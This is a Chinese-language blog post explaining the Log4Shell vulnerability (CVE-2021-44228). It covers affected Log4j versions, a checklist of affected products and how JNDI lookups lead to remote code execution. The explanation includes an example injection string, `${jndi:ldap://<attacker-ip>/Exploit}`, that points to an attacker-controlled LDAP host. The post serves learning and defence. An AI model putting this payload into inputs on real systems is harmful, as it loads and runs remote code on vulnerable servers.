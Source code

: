 ```yaml
---
layout: post
title: "【网络安全】Log4shell学习"
subtitle: "log4j2 RCE"
date: 2024-08-27
author: "3thernet"
header-img: "img/bg-touhou-6.jpg"
tags: []
---
```


## 0x01 概述

Log4Shell，编号CVE-2021-44228，是Apache Log4J 2 Java某些版本中的RCE漏洞，CVSS评分为10，被认为是互联网有史以来最重大的安全漏洞之一。

影响范围：Apache Log4j 2.x<=2.14.1

任何使用低版本Log4j2记录未经验证用户输入的应用程序都可能受到影响，比如 ：

- Tomcat, JBoss, WebSphere 使用 Log4j2 记录HTTP请求或参数；

- Kafka、Spark等大数据框架使用Log4j2来记录事件；

- Solr和Elasticsearch使用Log4j2进行日志记录；

- Jenkins等开发工具使用Log4j2来监控和记录活动；

- Minecraft服务器使用Log4j2记录玩家活动

Checklist:

```
Spring-Boot-strater-log4j2
Apache Struts2
Apache Solr
Apache Flink
Apache Druid
ElasticSearch
Flume
Dubbo
Redis
Logstash
Kafka
vmvare
Swift frameworks
```

### 漏洞原理

**JNDI（Java Naming and Directory Interface）**：JNDI是一种Java API，用于在Java应用程序中访问各种命名和目录服务，例如LDAP（轻量级目录访问协议）、DNS、RMI等。

Log4j2支持一种表达式语言（即Lookups），用于在日志消息中插入动态内容。例如，`${env:USERNAME}`可以插入当前环境变量`USERNAME`的值。同时，Log4j2还支持JNDI查找，如`${jndi:ldap://<attacker-ip>/Exploit}`。当Log4j2处理这样的表达式时，它会尝试连接到LDAP服务器，如果LDAP服务器为攻击者所控制，则可以返回一个指向恶意Java类的URL引用，其中包含构造函数或静态代码块，Log4j2会从该URL加载执行恶意代码。

